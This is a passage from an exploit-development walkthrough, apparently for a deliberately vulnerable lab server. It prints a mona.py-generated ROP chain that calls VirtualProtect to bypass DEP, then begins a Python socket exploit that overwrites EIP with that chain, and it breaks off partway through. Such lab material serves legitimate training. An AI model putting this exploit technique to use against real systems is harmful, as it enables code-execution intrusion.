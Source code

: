 Here is the Python code Mona generated for us. Let's use this in our exploit

```python
*** [ Python ] ***

  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x76a172f0,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x7521fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ebp:---]
      0x76e7c5ba,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x625011af,  # & jmp esp [essfunc.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x76a342f9,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x768a1643,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x7521f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_edx:---]
      0x7527ea50,  # POP EAX # RETN [MSCTF.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76963193,  # NEG EAX # RETN [user32.dll] ** REBASED ** ASLR 
      0x74fa1110,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ecx:---]
      0x7689fb57,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x75285e78,  # &Writable location [MSCTF.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x76df7643,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x768a1645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x758b9b4c,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x758ec2a0,  # PUSHAD # RETN [kernel32.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
```


We need to modify the exploit to overwrite EIP with our ROP chain rather than the JMP ESP instruction and replace the C's with `\xcc` (breakpoint) which will allow us to hit a breakpoint right after executing our ROP chain.


```python
import socket
import struct

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999

def create_rop_chain():
        # rop chain generated with mona.py - www.corelan.be
        rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x76a172f0,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7521fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_ebp:---]
```